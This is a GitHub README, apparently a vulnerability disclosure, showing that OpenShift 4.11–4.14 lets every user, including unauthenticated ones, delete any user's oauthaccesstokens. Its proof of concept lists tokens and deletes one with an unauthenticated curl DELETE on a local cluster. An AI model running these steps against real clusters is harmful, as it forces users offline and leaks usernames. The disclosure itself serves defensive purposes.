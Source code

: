 # openshift-oauthaccesstokens
## Description
In the current version of Openshift, 4.14, and back to at least 4.11, *all* users, including `system:anonymous `get the permission to delete any instance of the resource `oauthaccesstokens`. This allows any user that can list the resource `oauthaccesstokens` to force logout all other users, which can lead to a Denial of Service. 

Since the user `system:anonymous`, by default, also gets the permission to delete `oauthaccesstokens`, if the kubernetes API is publicly exposed, anyone could force logout users on the cluster, however, exploitation is less viable here since `system:anonymous` cannot list `oauthaccesstokens`.

Successfully deleting an `oauthaccesstoken` through the kubernetes API also leaks the username for whom the `oauthaccesstoken` was.

This permission is given to all users through the `clusterrole` `system:oauth-token-deleter`:
```powershell
PS > kubectl get clusterroles system:oauth-token-deleter -oyaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  annotations:
    rbac.authorization.kubernetes.io/autoupdate: "true"
  creationTimestamp: "2023-11-22T01:36:07Z"
  name: system:oauth-token-deleter
  resourceVersion: "8425"
  uid: 0fd49273-2c6b-4a0a-a8ab-735be5b01f2e
rules:
- apiGroups:
  - ""
  - oauth.openshift.io
  resources:
  - oauthaccesstokens
  - oauthauthorizetokens
  verbs:
  - delete
```

Which in turn is bound to `system:authenticated` and `system:unauthenticated` through the `clusterrolebinding` `system:oauth-token-deleters` : 

```powershell
PS > kubectl get clusterrolebinding system:oauth-token-deleters -oyaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  annotations:
    rbac.authorization.kubernetes.io/autoupdate: "true"
  creationTimestamp: "2023-11-22T01:36:08Z"
  name: system:oauth-token-deleters
  resourceVersion: "8477"
  uid: 6cbb646c-2836-4e7e-a08a-551c093a268e
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: system:oauth-token-deleter
subjects:
- apiGroup: rbac.authorization.k8s.io
  kind: Group
  name: system:authenticated
- apiGroup: rbac.authorization.k8s.io
  kind: Group
  name: system:unauthenticated
```

From a security perspective, by default, it should not be possible for any user to delete the `oauthaccesstoken` of another user.
It should definitely not be the default for e.g. `system:anonymous` or `system:unauthenticated` to have write access to resources, especially to delete any `oauthaccesstoken`.

This behavior seems to be correctly implemented through the clusterresource `useroauthaccesstokens` where you can't see or delete the accesstokens for another user, nor can an unauthenticated user see delete the tokens.
## Tested versions
Tested on Openshift versions:
- 4.11 (https://www.redhat.com/en/interactive-labs/openshift)
- 4.12 (production clusters on openstack)
- 4.14 (local openshift cluster)
The proof of concept below works on all the above versions.

## Proof of Concept
All commands below were executed against a local deployment of Openshift:
```powershell
PS > curl https://api.crc.testing:6443/version -k -H "Authorization: Bearer $TOKEN"
{
  "major": "1",
  "minor": "27",
  "gitVersion": "v1.27.6+b49f9d1",
  "gitCommit": "f3ec0ed759cde48849b6e3117c091b7db90c95fa",
  "gitTreeState": "clean",
  "buildDate": "2023-11-08T18:57:38Z",
  "goVersion": "go1.20.10 X:strictfipsruntime",
  "compiler": "gc",
  "platform": "linux/amd64"
}
```

Using `kubectl` the `kubeadmin` user, as well as `system:anonymous`, as `system:unauthenticated` have the permission to delete `oauthaccesstokens`: 

```powershell
PS > oc login -u kubeadmin https://api.crc.testing:6443

PS > kubectl auth can-i delete oauthaccesstokens
Warning: resource 'oauthaccesstokens' is not namespace scoped in group 'oauth.openshift.io'

yes

PS > kubectl auth can-i delete oauthaccesstokens --as=system:unauthenticated
Warning: resource 'oauthaccesstokens' is not namespace scoped in group 'oauth.openshift.io'

yes

PS > kubectl auth can-i delete oauthaccesstokens --as=system:anonymous
yes
```

Using the kubernetes API, we can, without authentication, delete the `oauthaccesstoken` for e.g. `kubeadmin`:

```powershell
PS > kubectl get oauthaccesstokens
NAME                                                 USER NAME   CLIENT NAME                    CREATED   EXPIRES                         REDIRECT URI                                                    SCOPES
sha256~LR7jgWOXifItKnPJX0Z10vJTm-jco2Nn-jsA-hHId-0   kubeadmin   openshift-challenging-client   10m       2023-12-08 08:17:11 +0000 UTC   https://oauth-openshift.apps-crc.testing/oauth/token/implicit   user:full
sha256~VFpOILn8edFxQXqZX3LsYQuk69kO419VUUkD5E5qb4k   developer   openshift-challenging-client   10m       2023-12-08 08:17:12 +0000 UTC   https://oauth-openshift.apps-crc.testing/oauth/token/implicit   user:full

PS > curl https://api.crc.testing:6443/apis/oauth.openshift.io/v1/oauthaccesstokens/sha256~VFpOILn8edFxQXqZX3LsYQuk69kO419VUUkD5E5qb4k -XDELETE -k
{
  "kind": "OAuthAccessToken",
  "apiVersion": "oauth.openshift.io/v1",
  "metadata": {
    "name": "sha256~VFpOILn8edFxQXqZX3LsYQuk69kO419VUUkD5E5qb4k",
    "uid": "49eecfde-84c3-43bb-8e88-fedf3ccd4a6e",
    "resourceVersion": "35718",
    "creationTimestamp": "2023-12-07T08:17:12xZ",
    "managedFields": [
      {
        "manager": "oauth-server",
        "operation": "Update",
        "apiVersion": "oauth.openshift.io/v1",
        "time": "2023-12-07T08:17:12Z",
        "fieldsType": "FieldsV1",
        "fieldsV1": {
          "f:authorizeToken": {},
          "f:clientName": {},
          "f:expiresIn": {},
          "f:redirectURI": {},
          "f:scopes": {},
          "f:userName": {},
          "f:userUID": {}
        }
      }
    ]
  },
  "clientName": "openshift-challenging-client",
  "expiresIn": 86400,
  "scopes": [
    "user:full"
  ],
  "redirectURI": "https://oauth-openshift.apps-crc.testing/oauth/token/implicit",
  "userName": "developer",
  "userUID": "06ff3300-d689-4974-afae-68ea2d4a3921",
  "authorizeToken": "sha256~mIhDukLS7IIBdaSlyeCdCbga7mS2_WhArEdWgSuToVs"
}

PS > kubectl get oauthaccesstokens
NAME                                                 USER NAME   CLIENT NAME                    CREATED   EXPIRES                         REDIRECT URI                                                    SCOPES
sha256~LR7jgWOXifItKnPJX0Z10vJTm-jco2Nn-jsA-hHId-0   kubeadmin   openshift-challenging-client   11m       2023-12-08 08:17:11 +0000 UTC   https://oauth-openshift.apps-crc.testing/oauth/token/implicit   user:full
```





